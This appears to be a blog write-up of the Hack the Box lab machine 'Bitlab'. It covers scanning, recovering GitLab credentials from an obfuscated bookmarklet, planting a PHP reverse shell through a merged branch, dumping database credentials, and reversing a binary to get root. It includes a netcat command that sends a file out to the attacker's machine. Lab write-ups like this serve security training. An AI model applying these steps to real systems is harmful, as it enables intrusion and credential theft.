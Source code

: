 +++
author = "Nick"
categories = ["hack the box", "decrypt", "PHP", "gitlab", "GIT", "reverse shell", "psql", "ssh", "ollydbg", "reverse engineering"]
date = 2020-01-11T12:20:41Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2019/10/bitlab_info.png"
slug = "hack-the-box-bitlab"
summary = "Welcome back! Today we are doing the machine Bitlab on Hack the Box. "
tags = ["hack the box", "decrypt", "PHP", "gitlab", "GIT", "reverse shell", "psql", "ssh", "ollydbg", "reverse engineering"]
title = "Hack the Box - Bitlab"

+++


Welcome back! Today we are doing the machine Bitlab on Hack the Box.

As usual we start with our nmap scan: ```nmap -sC -sV -oA bitlab_scan 10.10.10.114```.

Our initial scan comes back with two results. Ports ```22``` and ```80```. We see that port ```80``` is leaking some info in the scan from the ```robots.txt```:

```
Nmap scan report for 10.10.10.114
Host is up (0.087s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a2:3b:b0:dd:28:91:bf:e8:f9:30:82:31:23:2f:92:18 (RSA)
|   256 e6:3b:fb:b3:7f:9a:35:a8:bd:d0:27:7b:25:d4:ed:dc (ECDSA)
|_  256 c9:54:3d:91:01:78:03:ab:16:14:6b:cc:f0:b7:3a:55 (ED25519)
80/tcp open  http    nginx
| http-robots.txt: 55 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile 
| /dashboard /projects/new /groups/new /groups/*/edit /users /help 
|_/s/ /snippets/new /snippets/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.10.10.114/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.72 seconds
```

Now I'll run ```gobuster``` against the URL:

```gobuster dir -u http://10.10.10.114 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -o go_results.txt --wildcard```. 

While that runs through I'll start to manually parse through the site and see if there are any glaring hints. This will usually include, checking default passwords, source code and looking up the platform that is running.

{{< figure src="__GHOST_URL__/content/images/2019/10/image-80.png" >}}

The ```gobuster``` results show 5 potential locations. We browse through each and notice nothing particularly useful. However, if you continue to manually enumerate the page you will see there is a ```bookmarks.html``` link under the help section. When we follow this through we see there is an obfuscated JS function.

{{< figure src="__GHOST_URL__/content/images/2019/10/image-81.png" >}}

When we de-obfuscate the function we get the following:

{{< figure src="__GHOST_URL__/content/images/2019/10/image-82.png" >}}

It looks like an attempt to make an auto login type function. By passing the ```username``` clave and ```password``` of 11des0081x to the gitlab page. So we manually try these credentials and they work!

{{< figure src="__GHOST_URL__/content/images/2019/10/image-83.png" >}}

Now that we have an authenticated. We can continue to look around the page to see what might be of use. At this point in the enumeration we have also run a ```searchsploit``` on gitlab to see what might be out there. We do see there are a few options, one of which might be promising. We will continue to sift through the commits. The ```index.php``` file has some execution happening on it which we might be able to leverage. We also see some interesting code under the snippets location. A username and password for the postrgres connector. We also have the admins profile page. We have the ability to create files and merge them. So this will be easy, we'll just upload a webshell, merge the branch and go to the page we've just created.

{{< figure src="__GHOST_URL__/content/images/2019/10/image-84.png" >}}

We use the standard ```pentest monkey``` reverse web shell upload it, start our ```netcat``` listener, merge the branch and navigate to the page. Next thing you know we have a webshell.

{{< figure src="__GHOST_URL__/content/images/2019/10/image-85.png" >}}

We try to snag the ```user.txt``` but run into a permissions issue. So we'll start enumerating with some standard tools, ```linenum``` and ```pspy64```. We fire up our ```SimpleHTTPServer``` and download what we need. While that runs we take a look at what we can run as a privileged user. We have the ability to ```git pull```. We also see that we are in a docker container, so we'll want to try an enumerate the other portion of the systems. As it turns out nmap is on the system and we have the ability to run it.

We run an nmap scan against the IP's that we've found to enumerate them a bit further. We come back with quite a listing:

```
Starting Nmap 7.60 ( https://nmap.org ) at 2019-10-21 15:36 UTC
Nmap scan report for bitlab (172.19.0.1)
Host is up (0.00038s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8000/tcp open  http-alt

Nmap scan report for 172.19.0.2
Host is up (0.00051s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE
6379/tcp open  redis

Nmap scan report for 172.19.0.3
Host is up (0.00038s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE
5432/tcp open  postgresql

Nmap scan report for 172.19.0.4
Host is up (0.00011s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE
80/tcp open  http

Nmap scan report for 172.19.0.5
Host is up (0.00014s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8181/tcp open  intermapper

Starting Nmap 7.60 ( https://nmap.org ) at 2019-10-21 15:39 UTC
Nmap scan report for bitlab (172.17.0.1)
Host is up (0.000090s latency).
Not shown: 65531 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3000/tcp open  ppp
8000/tcp open  http-alt
```

Now we've got a fairly good idea of the landscape. Lets focus on gaining user. If we circle back around to the enumeration we did previously, we can try to leverage the hidden snippet we found. When we look at it, we see that it's making a database connection but that's it. So once the connection is made, we can just output the rows. We then create this file and merge the branch.

{{< figure src="__GHOST_URL__/content/images/2019/10/image-87.png" >}}

Once we've merged the branch, we head over to the page name and see what results come back.

{{< figure src="__GHOST_URL__/content/images/2019/10/image-86.png" >}}

Looks like we get a username and a ```base64``` encrypted password. We decode it and get ```ssh-str0ng-p@ss```. So either this entire string is the password or some combination of it is the ```ssh``` password. So when I try to ```ssh``` into the box as the user, I keep getting denied. So is this possibly not the right password? As the ```www-data user```, we try to change users to clave. We have the ability to but we don't seem to have the right password. Maybe the password is the hash, we are doing CTF's ;). Sure enough, the password was the hash and not the decrypted content.

{{< figure src="__GHOST_URL__/content/images/2019/10/image-88.png" >}}

Now that we're are loggin in as clave, we snag our user.txt and move onto root. In Clave's home directory we have a binary called ```RemoteConnection.exe```. Now often Remote Connection tools can save credentials inside. So we'll transfer the binary back to our system start to reverse engineer it. So we set up a ```netcat``` listener on our machine. We then send the file on the remote machine: ```nc -w 3 10.10.15.236 1999 < RemoteConnection.exe```. Once we've received the file we can start to break it down.

We'll use [Ollydbg](http://www.ollydbg.de/) as our debugger to see what it may show. I also did a quick glace at the file in Ida as well. 

We'll load the application into Olly. Initially stepping into the application looking for the entry point that we can enter data to our application. We set a few breakpoints on those and start stepping in. We are able to quickly find what we are looking for:

{{< figure src="__GHOST_URL__/content/images/2019/10/image-89.png" >}}

{{< figure src="__GHOST_URL__/content/images/2019/10/image-90.png" >}}

{{< figure src="__GHOST_URL__/content/images/2019/10/image-91.png" >}}

We have a root password here! Let's see if it works.

{{< figure src="__GHOST_URL__/content/images/2019/10/image-92.png" >}}

It does indeed. Root flag captured! Overall a pretty easy box. I know that some people I spoke to said that you could go right from the low privileged shell to root using ```git pull```. There are multiple paths to root on this box. This is just how I did mine!

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).




